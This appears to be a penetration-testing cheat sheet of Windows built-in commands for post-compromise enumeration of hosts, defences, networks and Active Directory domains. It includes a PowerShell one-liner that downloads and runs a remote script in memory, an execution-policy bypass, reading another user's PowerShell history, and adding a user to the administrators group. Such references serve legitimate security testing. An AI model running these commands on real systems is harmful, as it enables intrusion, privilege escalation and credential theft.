 ## LOLBIN Enumeration
**Host Enumeration**
```
hostname | Print PC Name
[System.Environment]::OSVersion.Version | Print OS Version
wmic qfe get Caption,Description,HotFixID,InstalledOn | Print patches applied to host
set %USERDOMAIN% | Displays domain name of the host
set %logonserver% | Print name of DC
Get-Module | Lists available modules loaded for use
Get-ExecutionPolicy -List | Print the execution policy
Set-ExecutionPolicy Bypass -Scope Process | Change policy for our current process
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt | Get the specified user's PowerShell history
Get-ChildItem Env: \| ft Key,Value | Return environment values
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://10.10.10.10:9001/otter.ps1'); echo hello " | Download a file and call it from memory
qwinsta | Check if there are other users in the session
```

**Checking Defenses**
```
netsh advfirewall show allprofiles | Checks WindowsDefender status
sc query windefend | Checks WindowsDefender from cmd.exe
Get-MpComputerStatus | Get WindowsDefender config
netsh advfirewall show state | Display status of the firewall
```

**Network Information**
```
arp -a | List hosts in ARP cache
ipconfig /all | Print network adapter config
route print | Display routing table
```

**WMI**
```
wmic qfe get Caption,Description,HotFixID,InstalledOn | Prints patches and hotfixes applied
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List | Displays basic host information
wmic process list /format:list | List all running processes
wmic ntdomain list /format:list | Display info about the domain and the DCs
wmic useraccount list /format:list | Display info about user account
wmic group list /format:list | Information about local groups
wmic sysaccount list /format:list | Information about system accounts
```

**Net.exe**
```
net accounts | Information about password requirements
net accounts /domain | Password and lockout policy
net group /domain`| Information about domain groups
net group "Domain Admins" /domain`| List users with domain admin privileges
net group "domain computers" /domain | List of PCs connected to the domain
net group "Domain Controllers" /domain | List PC accounts of domains controllers
net group <domain_group_name> /domain | User that belongs to the group
net groups /domain`| List of domain groups
net localgroup | All available groups
net localgroup administrators /domain | List users that belong to the administrators group inside the domain
net localgroup Administrators | Information about a group (admins)
net localgroup administrators [username] /add | Add user to administrators
net share | Check current shares
net user <ACCOUNT_NAME> /domain | Get information about a user within the domain
net user /domain | List all users of the domain
net user %username% | Information about the current user
net use x: \computer\share | Mount the share locally
```